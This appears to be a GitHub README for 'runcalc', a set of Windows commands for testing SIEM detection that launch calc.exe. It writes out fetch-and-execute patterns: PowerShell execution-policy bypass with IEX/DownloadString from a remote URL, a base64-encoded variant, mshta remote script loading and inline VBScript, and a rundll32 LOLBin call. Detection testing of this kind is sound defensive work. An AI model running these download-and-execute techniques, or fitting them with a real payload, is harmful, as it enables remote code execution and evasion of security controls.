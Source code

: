 # runcalc
Just some basic scripts for testing SIEM alerts


# Invoke-Expression
This powershell script just launch calc.exe using methods to download and execute various malicious payloads.  Below are some of the ways to call this.

### Standard Execution
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/losttroll/runcalc/main/invokecalc.ps1');invoke-calc"

### Base 64 Encoded Execution
powershell -noprofile -noninteractive -executionpolicy bypass -encodedcommand cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBlAHgAZQBjACAAQgB5AHAAYQBzAHMAIAAtAEMAIAAiAEkARQBYACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AcgBhAHcALgBnAGkAdABoAHUAYgB1AHMAZQByAGMAbwBuAHQAZQBuAHQALgBjAG8AbQAvAGwAbwBzAHQAdAByAG8AbABsAC8AYgBsAHUAZQB0AGUAcwB0AHMALwBtAGEAaQBuAC8AaQBuAHYAbwBrAGUAYwBhAGwAYwAuAHAAcwAxACcAKQA7AGkAbgB2AG8AawBlAC0AYwBhAGwAYwAiAA==

## MSHTA
The command will use MSHTA to download a payload that executes calc.exe

### Standard Execution
mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/losttroll/runcalc/main/calc.sct").Exec();close();

### Local Payload
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""calc.exe"""))</script>'"

### Local Payload w/ Powershell
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""powershell.exe%20-nop%20-Command%20calc.exe"""))</script>'"

### Download and Display the Payload
mshta https://raw.githubusercontent.com/losttroll/runcalc/main/calc.sct

## RunDLL32.exe
rundll32.exe pcwutl.dll,LaunchApplication C:\Windows\System32\calc.exe
